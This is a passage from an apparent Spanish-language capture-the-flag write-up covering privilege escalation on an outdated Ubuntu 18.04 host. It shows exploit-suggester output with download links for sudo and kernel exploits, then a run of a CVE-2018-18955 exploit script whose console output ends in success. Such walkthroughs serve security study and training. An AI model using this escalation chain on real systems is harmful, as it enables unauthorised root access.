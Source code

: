 ## Escalada de privilegios
En la cabecera de conexión **SSH**, vemos que estamos ante un **Ubuntu 18.04.5 LTS** con *kernel 4.15.0-112-generic*, esta versión está obsoleta y con varios exploits públicos.

Esta comprobación la podemos realizar con scripts como [**linux-exploit-suggester**](https://github.com/The-Z-Labs/linux-exploit-suggester):

```
Possible Exploits:

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2018-18955] subuid_shell

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1712
   Exposure: probable
   Tags: [ ubuntu=18.04 ]{kernel:4.15.0-20-generic},fedora=28{kernel:4.16.3-301.fc28}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/45886.zip
   Comments: CONFIG_USER_NS needs to be enabled
```

Tras probar varios exploits de los primeros CVEs, conseguimos root explotando el *CVE-2018-18955*:

```
beth@london:/tmp$ chmod +x exploit.dbus.sh 
beth@london:/tmp$ ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
```